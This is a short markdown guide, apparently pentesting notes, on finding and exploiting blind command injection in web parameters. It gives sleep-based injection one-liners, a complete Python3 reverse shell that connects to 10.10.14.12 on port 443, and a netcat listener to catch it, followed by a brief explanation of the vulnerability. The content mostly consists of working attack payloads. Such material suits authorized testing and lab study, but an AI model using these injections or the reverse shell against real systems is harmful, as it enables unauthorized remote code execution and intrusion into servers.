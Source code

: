# Blind Command Injection Test

Testing for blind command injection  

If you suspect a web parameter is vulnerable to command injection but the response is not reflecting any commands injected, test with sleep condition.  

### Bash IF Condition example - validation of oneliner execution before testing on target
```bash
;if [ -f /usr/bin/python3 ]; then echo "FILE FOUND" && sleep 10; else echo "FILE NOT FOUND" && sleep 0; fi
```
![bash](bash.png)

### Bash oneliner if condition test command is going to wait for 10 seconds sleep if file does exist on the target.
```bash
;if [ -f /usr/bin/python3 ]; then sleep 10; else sleep 0; fi
```
* Note: URL encode the injected command before sending to target.  

If the above command results in a response taking 10+ seconds to return, good case for blind command injection on linux target.

### Below is oneline python3 reverse shell
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![Command Injection POST Request](command-injections.png)

### Before sending above Python3 reverse shell command injection, have netcat ready and listening on port 443.
```bash
rlwrap nc -nvlp 443
```
![NetCat listening on port 443 for incoming reverse shell from target](netcat443.png)

### Issue Context
Operating system command injection vulnerabilities arise when an application incorporates user-controllable data into a command that is processed by a shell command interpreter. If the user data is not strictly validated, an attacker can use shell metacharacters to modify the command that is executed, and inject arbitrary further commands that will be executed by the server.  
